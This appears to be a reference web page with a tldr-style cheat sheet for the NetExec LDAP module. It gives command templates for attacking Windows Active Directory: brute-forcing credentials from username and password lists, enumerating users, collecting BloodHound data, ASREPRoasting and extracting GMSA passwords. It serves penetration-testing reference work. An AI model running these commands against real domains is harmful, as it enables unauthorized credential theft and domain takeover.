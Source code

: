 ```yaml
---
title: "LDAP Exploitation - Control Active Directory | Online Free DevTools by Hexmos"
name: nxc-ldap
path: /freedevtools/tldr/nxc/nxc-ldap
canonical: "https://hexmos.com/freedevtools/tldr/nxc/nxc-ldap/"
description: "Control Active Directory via LDAP exploitation with nxc-ldap. Enumerate users, extract data, and attempt ASREPRoasting attacks. Free online tool, no registration required."
category: common
keywords:
- LDAP Active Directory exploitation
- Active Directory enumeration
- LDAP user extraction
- ASREPRoasting attack
- GMSA password extraction
- Windows domain pentesting
- Network exploitation command
- LDAP password cracking
- nxc exploitation tool
- Domain credentials search
features:
- Search for valid domain credentials using username/password lists.
- Enumerate active users within the Active Directory domain.
- Collect domain data and import it into BloodHound for analysis.
- Attempt ASREPRoasting attacks by collecting AS_REP messages.
- Extract passwords for group managed service accounts (GMSA).
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# nxc ldap

> Pentest and exploit Windows Active Directory Domains via LDAP.
> More information: <https://www.netexec.wiki/ldap-protocol>.

- Search for valid domain credentials by trying out every combination in the specified lists of usernames and passwords:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{path/to/usernames.txt}} {{[-p|--password]}} {{path/to/passwords.txt}}`

- Enumerate active domain users:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} {{password}} --active-users`

- Collect data about the targeted domain and automatically import these data into BloodHound:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} {{password}} --bloodhound {{[-c|--collection]}} {{All}}`

- Attempt to collect AS_REP messages for the specified user in order to perform an ASREPRoasting attack:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} '' --asreproast {{path/to/output.txt}}`

- Attempt to extract the passwords of group managed service accounts on the domain:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} {{password}} --gmsa`

